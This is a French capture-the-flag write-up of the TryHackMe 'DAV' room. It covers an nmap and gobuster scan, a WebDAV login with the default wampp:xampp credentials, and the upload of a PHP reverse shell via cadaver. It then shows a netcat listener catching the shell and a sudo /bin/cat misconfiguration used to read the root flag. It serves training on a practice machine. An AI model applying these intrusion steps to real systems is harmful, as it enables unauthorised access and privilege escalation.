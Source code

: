 ```yaml
---
title: DAV (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Webdav]
style: border
color: thm
comments: false
description: Voilà ce que peut arriver si on conserve les identifiants par défaut
modified: 06/09/2024
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtdav>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Analyse du site](#2-analyse-du-site)
* [3. Exploitation de Webdav](#3-exploitation-de-webdav)
* [4. Exploration du serveur](#4-exploration-du-serveur)
* [5. Élévation de privilèges](#5-élévation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.157.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 15:26 CEST
Nmap scan report for 10.10.157.86
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique uniquement un serveur Apache présent sur le port 80.

## 2. Analyse du site

{% include elements/figure.html image="/images/THM/20240901/VirtualBox_Kali Hack_01_09_2024_15_29_16.png" caption="Première connexion" %}

A première vue, il ne s'agit que de la page par défaut que nous pouvons obtenir dès l'installation d'Apache.

Nous lançons un scanner {% include dictionary.html word="gobuster" %} et nous observons une page `webdav` qui nécessite une authentification (Status: 401).

```bash
gobuster dir -u http://10.10.157.86 -w /usr/share/wordlists/dirb/common.txt -x php,html -b "403,404"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

A la recherche d'identifiants par défaut sur Google, nous arrivons sur ce [blog](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) indiquant `wampp:xampp`. Le test est concluant, nous avons accès à l'outil avec ces identifiants.

{% include elements/figure.html image="/images/THM/20240901/Capture_ecran_2024-09-01_webdav.png" caption="Accès à Webdav" %}

## 3. Exploitation de Webdav

En parcourant le site [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver), nous avons connaissance de l'outil `cadaver` permettant de téléverser des fichiers sur Webdav. Nous tenterons d'ajouter le {% include dictionary.html word="reverse-shell" %} {% include dictionary.html word="PHP" %} mis à disposition sur le [Github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Nous avons pu téléverser notre {% include dictionary.html word="reverse-shell" %}.

```bash
cadaver http://10.10.157.86/webdav
Authentication required for webdav on server `10.10.157.86':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> put php-reverse-shell.php 
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
        php-reverse-shell.php               5492  Sep  1 16:05
```

Nous préparons un terminal en écoute sur le port indiqué dans le fichier {% include dictionary.html word="PHP" %}, puis nous cliquons sur le lien qui est apparu dans le répertoire Webdav.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.157.86] 45450
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:09:19 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La manipulation a fonctionné. Nous avons un accès à la machine.

## 4. Exploration du serveur

Nous commençons par améliorer le reverse shell obtenu afin de simplifier la navigation.

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Nous constatons que le user `www-data` a accès aux répertoires des utilisateurs "merlin" et "wampp"

```bash
ls -hAl /home
total 8.0K
drwxr-xr-x 4 merlin merlin 4.0K Aug 25  2019 merlin
drwxr-xr-x 2 wampp  wampp  4.0K Aug 25  2019 wampp
```

Le répertoire de merlin contient le flag utilisateur, et celui-ci est lisible par tout le monde.

```bash
cd /home/merlin

ls -hAl
total 36K
-rw------- 1 merlin merlin 2.4K Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3.7K Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4.0K Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4.0K Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

cat user.txt
449b40[...expurgé...]d66d2a
```

## 5. Élévation de privilèges

Nous recherchons à présent le moyen d'obtenir les droits root sur la machine.

En vérifiant les droits {% include dictionary.html word="sudo" %} de l'utilisateur www-data, nous constatons qu'il est habilité à utiliser la commande `/bin/cat` sans mot de passe.

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Nous avons donc la possibilité de lire le contenu du flag root.

```bash
sudo /bin/cat /root/root.txt
101101[...expurgé...]f7afa5
```
